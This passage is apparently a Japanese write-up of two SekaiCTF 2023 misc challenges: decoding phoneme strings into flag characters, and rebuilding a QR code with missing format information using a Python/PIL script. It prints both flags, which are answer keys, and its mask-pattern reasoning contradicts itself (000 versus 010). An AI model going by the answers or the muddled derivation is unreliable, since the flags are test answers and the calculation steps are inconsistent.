"lyrics": "\u3046", "phonemes": "eh s",
"lyrics": "\u3072", "phonemes": "iy",
"lyrics": "\u3068", "phonemes": "k ey",
"lyrics": "\u306e", "phonemes": "ey",
"lyrics": "\u304b", "phonemes": "ay",
"lyrics": "\u305a", "phonemes": "ow p ax n k er l iy b r ae k ih t",
"lyrics": "\u3060", "phonemes": "eh s",
"lyrics": "\u3051", "phonemes": "ow",
"lyrics": "\u304d", "phonemes": "eh m",
"lyrics": "\u307f", "phonemes": "iy",
"lyrics": "\u3092", "phonemes": "w ah n",
"lyrics": "\u3064", "phonemes": "z iy",
"lyrics": "\u304f", "phonemes": "eh f",
"lyrics": "\u308b", "phonemes": "ey",
"lyrics": "\u307f", "phonemes": "aa r",
"lyrics": "\u3089", "phonemes": "ey",
"lyrics": "\u3044", "phonemes": "d ah b ax l y uw",
"lyrics": "\u304c", "phonemes": "ey",
"lyrics": "\u3042", "phonemes": "w ay",
"lyrics": "\u308b", "phonemes": "t iy",
"lyrics": "\u304d", "phonemes": "eh m",
"lyrics": "\u307f", "phonemes": "aa r",
"lyrics": "\u3092", "phonemes": "w ah n",
"lyrics": "\u306f", "phonemes": "f ay v",
"lyrics": "\u304f", "phonemes": "eh s",
"lyrics": "\u3050", "phonemes": "iy",
"lyrics": "\u3080", "phonemes": "k y uw",
"lyrics": "\u3088", "phonemes": "y uw",
"lyrics": "\u30fc", "phonemes": "iy",
"lyrics": "\u306a", "phonemes": "eh l",
"lyrics": "\u3053", "phonemes": "t iy",
"lyrics": "\u306e", "phonemes": "ow",
"lyrics": "SE", "phonemes": "ow",
"lyrics": "KA", "phonemes": "y uw",
"lyrics": "I{", "phonemes": "aa r",
"lyrics": "\u304c", "phonemes": "d iy",
"lyrics": "\u307c", "phonemes": "aa r",
"lyrics": "\u304f", "phonemes": "iy",
"lyrics": "\u308f", "phonemes": "ey",
"lyrics": "\u3059", "phonemes": "eh m",
"lyrics": "\u304d", "phonemes": "t iy",
"lyrics": "\u306a", "phonemes": "d iy",
"lyrics": "\u3093", "phonemes": "w ay",
"lyrics": "\u3060}", "phonemes": "k l ow s k er l iy b r ae k ih t",
```

phonemesはどうやら音素というらしい。  
phonemesから、アルファベットと記号を導き出せる。  
（検索すればすぐ出てくるのになぜか調べなかったため、競技中は解けなかった。）

- <https://www.lumenvox.com/help/speechEngine/grammars/phonemeLists/american-english-phonemes.htm>

表を使って割り当てると以下のようになる。

phonemes | ASCII
-- | --
"eh f", | F
"eh l", | L
"ey", | A
"jh iy", | G
"k ow l ax n", | :
"eh s", | S
"iy", | E
"k ey", | K
"ey", | A
"ay", | I
"ow p ax n k er l iy b r ae k ih t", | {
"eh s", | S
"ow", | O
"eh m", | M
"iy", | E
"w ah n", | 1
"z iy", | Z
"eh f", | F
"ey", | A
"aa r", | R
"ey", | A
"d ah b ax l y uw", | W
"ey", | A
"w ay", | Y
"t iy", | T
"eh m", | M
"aa r", | R
"w ah n", | 1
"f ay v", | 5
"eh s", | S
"iy", | E
"k y uw", | Q
"y uw", | U
"iy", | E
"eh l", | L
"t iy", | T
"ow", | O
"ow", | O
"y uw", | U
"aa r", | R
"d iy", | D
"aa r", | R
"iy", | E
"ey", | A
"eh m", | M
"t iy", | T
"d iy", | D
"w ay", | Y
"k l ow s k er l iy b r ae k ih t", | }

フラグの形式は`SEKAI\{[A-Z0-9]+\}`のため、以下がフラグとなる。

`SEKAI{SOME1ZFARAWAYTMR15SEQUELTOOURDREAMTDY}`

## misc/QR God

13 solves / 484 points

Format Information（形式情報）が欠落しているVersion 1（21×21）のQRコードが与えられる。


解説サイトがあったので、それを参考に進めていく。  
<https://www.swetake.com/qrcode/qr1.html>

競技中は、形式情報は高々2^15なので、総当たり+OCRで解けると考えていたが上手くいかなかった。  
マスクパターンを考慮してXORとかもやってはみたが、結局時間内に解けなかった。

- QRコードの再構成

[公式Writeup](https://github.com/project-sekai-ctf/sekaictf-2023/tree/main/misc/qr-god/solution)を見ると、どうやらそもそものQRコード読み取りの方向が間違っているらしい。  
具体的には、右下からの読み取りでなく、左上からの読み取りになっていたらしい。  
（この再構成にどうすれば気づけるのか不明なため、総当たりで頑張って気づくしかなさそう？）
まずはQRコードを再構成する.

```text
1101100010011100101011010011001011010010011100100000111000101101111010100110000000100011100100101010111100011010110111110100001101100001010010010111101001011000110001000010010001011011011110000101101100011011
```

これを通常のQRコードの形式に再構成する。  
（実際はこの段階で読み込めばよいが、QRコードの復元までしてみる）

さすがに面倒なので、スクリプトを書いて生成する。

```python
from PIL import Image

111001111000100
SIZE = 21
bits = '1101100010011100101011010011001011010010011100100000111000101101111010100110000000100011100100101010111100011010110111110100001101100001010010010111101001011000110001000010010001011011011110000101101100011011'
meta = [[1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1],
        [1, 1, 1, 1, 1, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]]
code = [[-1 for _j in range(0, SIZE)] for _i in range(0, SIZE)]

for y in range(SIZE):
  for x in range(SIZE):
    if y <= 8 and x <= 8: # 左上四角
      code[y][x] = 0
      continue
    if y <= 8 and x >= SIZE - 8: # 右上四角
      code[y][x] = 0
      continue
    if y >= SIZE - 8 and x <= 8: # 左下四角
      code[y][x] = 0
      continue
    if x == 6 or y == 6: # タイミングパターン
      code[y][x] = 0
      continue

x, y = 20, 20
up = True
right = True
index = 0
while index < len(bits) and x >= 0 and y >= 0:
  if x == 6:
    x -= 1
    continue
  if code[y][x] == -1:
    code[y][x] = int(bits[index])
    index += 1
  if up:
    if right:
      x -= 1
      right = False
    else:
      if y > 0:
        y -= 1
        x += 1
        right = True
      else:
        x -= 1
        right = True
        up = False
  else:
    if right:
      x -= 1
      right = False
    else:
      if y + 1 < SIZE:
        y += 1
        x += 1
        right = True
      else:
        x -= 1
        right = True
        up = True

# 描画
pixel = SIZE * 10
flame = 10 * 3
img = Image.new("L", (pixel + flame * 2, pixel + flame * 2), 255)
for y in range(pixel):
  for x in range(pixel):
    color = 255 - (meta[y//10][x//10] + code[y//10][x//10]) * 255
    img.putpixel((x + flame, y + flame), color)
img.show()
```


- 形式情報

形式情報は15bitで表され、誤り訂正レベル（2bit）+マスクパターン参照子（3bit）+誤り訂正ビット（10bit）となっている。  
今回の問題ではそれも分からない状態。

Version 1だと情報量が少ないため、モード指示子を表すQRコードの右端の4bitは、`0100`の8bitモードになると推測ができる。  
問題文に指定がなかったので、記号`{}`が入ると思われることからもおそらく正しいはず。

- モード毎の表示可能文字数（Version 1の場合）
<https://www.qrcode.com/about/version.html>

誤り訂正レベル | 数字モード | 英数字モード | バイナリ(8bit)モード | 漢字モード
-- | -- | -- | -- | --
L | 41 | 25 | 17 | 10
M | 34 | 20 | 14 | 8
Q | 27 | 16 | 11 | 7
H | 17 | 10 | 7 | 4

- マスクパターン参照子の推測

8つあるマスクパターンでモード指示子が`0100`になるパターンを探す。  
問題のQRコードにはマスクがかかっているので、逆算して求める。

現在：1101

右下の4bitに対して、`1001`のXORをするマスクパターンが正しそう。

マスクパターンについてはWikiを見た方が早い。  
<https://en.wikipedia.org/wiki/QR_code#Encoding>

座標を(x, y)とした時、マスクパターンの参照子は条件：`(x+y) mod 2 = 0`の`000`と推測できる。

- 誤り訂正レベルの推測

不明ではあるが、`L`か`M`以外は文字数が少なすぎるはず。  
一番表現できるサイズが大きい`L`の`01`として考える。  
もし違う場合でもこの後の誤り訂正ビットを修正すればいい。

誤り訂正レベル | ビット
-- | --
Ｌ | 01
Ｍ | 00
Ｑ | 11
Ｈ | 10

- 誤り訂正ビットの計算

ここは頑張って計算する。

誤り訂正レベルL、マスクパターン参照子010なので、前半5bitは`01000`となる。  
当てはめる多項式は、`x^13`。  
これを`G(x) = x^10 + x^8 + x^5 + x^4 + x^2 + x + 1`で割ると、  
`剰余R(x) = x^9 + x^8 + x^7 + x^6 + x^4 + x^2 + x`となる。

誤り訂正ビットは、`1111010110`。

- QRコードの修復。

`010001111010110`と`101010000010010`でXORをする。  
形式情報15bitは、`111011111000100`となるので、再構成したQRコードに形式情報を埋め込んで完成。

```python
from PIL import Image

111001111000100
SIZE = 21
bits = '1101100010011100101011010011001011010010011100100000111000101101111010100110000000100011100100101010111100011010110111110100001101100001010010010111101001011000110001000010010001011011011110000101101100011011'
meta = [[1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 1, 1, 1, 1, 1, 1, 1],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 1, 1, 0, 1],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 1],
        [1, 1, 1, 1, 1, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 1, 1, 1, 1, 1],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [0, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 1, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 0, 0, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0],
        [1, 1, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]]
code = [[-1 for _j in range(0, SIZE)] for _i in range(0, SIZE)]

for y in range(SIZE):
  for x in range(SIZE):
    if y <= 8 and x <= 8: # 左上四角
      code[y][x] = 0
      continue
    if y <= 8 and x >= SIZE - 8: # 右上四角
      code[y][x] = 0
      continue
    if y >= SIZE - 8 and x <= 8: # 左下四角
      code[y][x] = 0
      continue
    if x == 6 or y == 6: # タイミングパターン
      code[y][x] = 0
      continue

x, y = 20, 20
up = True
right = True
index = 0
while index < len(bits) and x >= 0 and y >= 0:
  if x == 6:
    x -= 1
    continue
  if code[y][x] == -1:
    code[y][x] = int(bits[index])
    index += 1
  if up:
    if right:
      x -= 1
      right = False
    else:
      if y > 0:
        y -= 1
        x += 1
        right = True
      else:
        x -= 1
        right = True
        up = False
  else:
    if right:
      x -= 1
      right = False
    else:
      if y + 1 < SIZE:
        y += 1
        x += 1
        right = True
      else:
        x -= 1
        right = True
        up = True

# 形式情報追加
info = [0b111011111000100 >> i & 1 for i in range(15)]
code[0][8] = info[0]
code[1][8] = info[1]
code[2][8] = info[2]
code[3][8] = info[3]
code[4][8] = info[4]
code[5][8] = info[5]
code[7][8] = info[6]
code[8][8] = info[7]
code[8][7] = info[8]
code[8][5] = info[9]
code[8][4] = info[10]
code[8][3] = info[11]
code[8][2] = info[12]
code[8][1] = info[13]
code[8][0] = info[14]
code[8][SIZE-1] = info[0]
code[8][SIZE-2] = info[1]
code[8][SIZE-3] = info[2]
code[8][SIZE-4] = info[3]
code[8][SIZE-5] = info[4]
code[8][SIZE-6] = info[5]
code[8][SIZE-7] = info[6]
code[8][SIZE-8] = info[7]
code[SIZE-7][8] = info[8]
code[SIZE-6][8] = info[9]
code[SIZE-5][8] = info[10]
code[SIZE-4][8] = info[11]
code[SIZE-3][8] = info[12]
code[SIZE-2][8] = info[13]
code[SIZE-1][8] = info[14]

# 描画
pixel = SIZE * 10
flame = 10 * 3
img = Image.new("L", (pixel + flame * 2, pixel + flame * 2), 255)
for y in range(pixel):
  for x in range(pixel):
    color = 255 - (meta[y//10][x//10] + code[y//10][x//10]) * 255
    img.putpixel((x + flame, y + flame), color)
img.show()
```


QRコードをスキャンするとフラグ（`SEKAI{G0d_Ch4mP}`）が出る。
